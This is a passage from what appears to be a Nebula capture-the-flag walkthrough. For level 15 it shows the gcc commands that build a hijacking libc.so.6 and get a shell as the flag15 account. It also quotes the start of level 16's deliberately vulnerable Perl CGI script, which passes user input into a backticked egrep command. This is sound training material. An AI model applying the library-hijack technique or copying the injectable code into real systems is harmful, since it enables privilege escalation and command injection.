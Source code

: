 What? I realise we are slowly approaching the limits of my capabilities of dealing with Linux's demands. I searched around and found out about [version scripts](https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_25.html). Let's hope it works

```
level15@nebula:/var/tmp/flag15$ cat version
GLIBC_2.0 { };
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

_sigh_ - symbol `system` is missing. Ok, let's just build it statically and wrap it all up so we've got everything we need. From `man gcc`

> **-static-libgcc**
> On systems that provide libgcc as a shared library, these options force the use of either the shared or static version respectively. If no shared version of libgcc was built when the compiler was configured, these options have no effect.
>
> So really we can also get rid of our implementation of `__cxa_finalize` as it's all statically linked now.

```
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 16

> There is a perl script running on port 1616.

```perl
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/;  # conver to uppercase
  $username =~ s/\s.*//;    # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
    ($usr, $pw) = split(/:/, $line);


    if($pw =~ $password) {
      return 1;
    }
  }

  return 0;
}

sub htmlz {
```